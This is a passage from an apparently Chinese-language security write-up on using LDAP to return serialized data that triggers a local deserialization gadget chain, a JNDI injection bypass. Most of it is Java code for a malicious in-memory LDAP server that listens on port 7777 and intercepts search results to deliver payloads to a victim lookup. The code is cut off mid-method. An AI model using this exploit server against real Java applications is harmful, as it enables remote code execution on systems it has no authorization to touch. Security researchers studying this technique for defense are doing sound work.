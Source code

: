 ### 利用LDAP返回序列化数据，触发本地Gadget

#### use 序列化数据+本地链子

```java
import java.net.InetAddress;
import java.net.URL;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import com.unboundid.util.Base64;

public class Deserializebypass {

    private static final String LDAP_BASE = "dc=t4rrega,dc=domain";

    public static void main ( String[] tmp_args ) {
        String[] args=new String[]{"http://127.0.0.1/#Deserialize"};
        int port = 7777;
        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new Deserializebypass.OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
```